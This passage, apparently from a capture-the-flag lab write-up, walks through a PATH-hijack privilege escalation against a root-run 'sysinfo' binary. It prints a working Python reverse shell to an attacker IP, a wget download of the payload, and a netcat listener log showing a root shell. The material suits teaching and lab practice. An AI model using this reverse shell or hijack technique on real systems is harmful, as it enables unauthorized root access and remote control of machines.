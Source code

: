 It seems this binary execute other binaries as root: lshw, fdisk, cat, and free.

How can we use this ? The plan is to make our own binary with our code (a reverse shell), named "free" for example, and make it being executed by sysinfo.   

1. We write the following content in a file named _**free**_ :
~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~


2. Transfer it on the target and make it executable:
~~~
theseus@ubuntu:/var/tmp$ wget http://10.10.14.23/free
theseus@ubuntu:/var/tmp$ chmod 755 free
~~~

3. Prepend the current directory or where the new _**"free"**_ executable is located to the PATH variable (this is the important part of this privilege escalation process), and run the _**"free"**_ executable to gain a root shell:
~~~
theseus@ubuntu:/var/tmp$ PATH=/var/tmp:$PATH
theseus@ubuntu:/var/tmp$ sysinfo
~~~

4. We have set a listener on the kali machine and we have a root shell:
~~~
root@kali:~# nc -nlvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:52976.
root@ubuntu:/var/tmp# whoami
whoami
root
~~~

And voilà ! We are the champions ;-)

![root-txt.png](images/root-txt.png)
